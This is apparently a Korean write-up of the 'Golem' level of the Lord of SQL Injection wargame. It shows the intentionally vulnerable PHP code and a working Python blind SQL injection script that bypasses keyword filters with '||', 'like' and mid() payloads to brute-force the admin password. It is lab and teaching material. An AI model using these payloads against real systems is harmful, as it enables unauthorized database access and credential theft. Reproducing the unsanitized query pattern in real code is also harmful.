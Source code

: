 # **Golem**
## 1. 문제의도
Blind Injection을 아나요?

----
## 2. 코드
```php
  <?php
    include "./config.php";
    login_chk();
    dbconnect();

    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw]))
      exit("No Hack ~_~");

    if(preg_match('/or|and|substr\(|=/i', $_GET[pw]))
      exit("HeHe");

    $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'";
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysql_fetch_array(mysql_query($query));

    if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

    $_GET[pw] = addslashes($_GET[pw]);

    $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'";
    $result = @mysql_fetch_array(mysql_query($query));

    if(($result['pw']) && ($result['pw'] == $_GET['pw']))
      solve("golem");

    highlight_file(__FILE__);
  ?>
```
----
### 1. preg_match()
information_schema 와 문제 테이블들에 대한 직접 접근을 막고 있다.
```
  prob | _ | . | ()
```

### 2. query
```SQL
  select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'
```

접근 할 수 있는 부분 : pw GET parameter  

### 3. 통과 조건
```php
  if(($result['pw']) && ($result['pw'] == $_GET['pw']))
    solve("golem");
```
우리는 pw를 직접 알 필요가 있다.

----
## 3. Solution
pw 파라미터를 통한 블라인드 인젝션으로 admin 계정의 pw 를 알아보자!!

<이제 부터는 어느정도의 mysql 함수를 안다는 가정하에 진행한다.>

### My Answers :

이번 문제는 간단한 블라인드 SQLi 이다.

다음과 같은 python 코드를 작성하여 해결 하였다.

```python
#-*- coding: utf-8 -*-
import urllib2, urllib, string

def getRequest(url, inject_url=""):
    if inject_url is not "": url = url.format(urllib.quote(inject_url))
    print url
    req = urllib2.Request(url)
    req.add_header('User-Agent','Mozilla/4.0')
    req.add_header("Cookie","PHPSESSID=kvkemdvcf9bqkcmk5v2c51chk4")
    return req

def getPage(req):
    return urllib2.urlopen(req).read()

url = "http://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw={}"

# get length
inject_url = "' || length(pw) like {}; -- -"
for i in range(1, 100):
    req = getRequest(url,inject_url.format(i))
    page = getPage(req)
    if "Hello admin" in page:
        length = i
        break

print "Length :",length

# get password : brute forcing
password = ""
inject_url = "' || mid(pw,{},1) like '{}"
for i in range(1,length+1):
    for c in string.digits + string.letters:
        req = getRequest(url, inject_url.format(i,c))
        page = getPage(req)
        if "Hello admin" in page:
            print i,"'th letter is",c
            password += c
            break

print "Password :",password

```

python 코드가 "Password : 88e3137f" 라고 출력했다.
그래서 답은 88e3137f 를 입력하면 클리어!!

**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/WriteUp/blob/master/Wargame/Lord%20of%20SQL%20Injection/00.%20ReadMe.md)**
